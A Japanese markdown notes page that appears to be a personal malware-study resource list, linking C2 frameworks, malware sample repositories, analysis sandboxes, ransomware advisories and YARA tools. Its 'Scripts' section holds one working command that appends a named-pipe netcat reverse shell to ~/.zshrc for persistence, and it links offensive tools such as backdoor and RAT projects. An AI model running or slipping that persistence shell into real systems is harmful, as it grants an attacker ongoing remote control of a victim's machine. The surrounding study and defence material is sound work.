 # マルウェア

## C2

https://howto.thec2matrix.com/

https://github.com/BishopFox/sliver

## 検体の入手

https://objective-see.org/malware.html

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

## 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

## マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

## Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

## 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

## マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

## VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

## マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/

## Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

## YARA

https://github.com/JPCERTCC/jpcert-yara

## Development

https://github.com/redcode-labs/Coldfire

## Tools

https://github.com/sweetsoftware/Ares

## 参考

[Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)

[ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)

[Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)
